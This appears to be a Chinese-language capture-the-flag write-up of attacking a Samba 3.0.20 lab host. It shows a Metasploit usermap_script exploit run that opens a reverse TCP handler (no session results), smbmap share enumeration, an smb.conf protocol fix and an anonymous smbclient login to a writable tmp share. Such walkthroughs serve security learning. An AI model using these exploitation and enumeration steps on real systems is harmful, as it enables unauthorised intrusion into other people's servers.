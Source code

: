 ```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 192.168.163.128:4444 
[*] Exploit completed, but no session was created.
```
尝试1：enum4linux 没有找到workgroup，转下一尝试。
尝试2：smbmap 这里能看到只有tmp是有读写权限的。
```
smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
于是使用smbclient尝试连接tmp文件，连接失败。
```
smbclient //10.10.10.3/tmp                                           
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```
这里查了一下，并不是存在访问控制，而是[本地smb的一些配置问题](https://unix.stackexchange.com/questions/562550/smbclient-protocol-negotiation-failed)，解决办法，打开`/etc/samba/smb.conf `，在`global setting`下添加如下两句：
```
client min protocol = CORE
client max protocol = SMB3
```
再次尝试连接，连接成功。
```
smbclient //10.10.10.3/tmp                                            1 ⨯
Enter WORKGROUP\tsunamori's password:  //这里直接回车
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
获取tmp下文件内容
```
smb: \> dir
  .                                   D        0  Thu Aug 18 03:03:27 2022
  ..                                 DR        0  Sat Oct 31 01:33:58 2020
  orbit-makis                        DR        0  Wed Aug 17 05:25:31 2022
  5576.jsvc_up                        R        0  Wed Aug 17 04:21:25 2022
  .ICE-unix                          DH        0  Wed Aug 17 04:20:22 2022
  vmware-root                        DR        0  Wed Aug 17 04:20:44 2022
  .X11-unix                          DH        0  Wed Aug 17 04:20:47 2022
  gconfd-makis                       DR        0  Wed Aug 17 05:25:31 2022
  .X0-lock                           HR       11  Wed Aug 17 04:20:47 2022
  vgauthsvclog.txt.0                  R     1600  Wed Aug 17 04:20:20 2022

                7282168 blocks of size 1024. 5385916 blocks available
smb: \> pwd
Current directory is \\10.10.10.3\tmp\
```
能读取的只有最后两个文件。
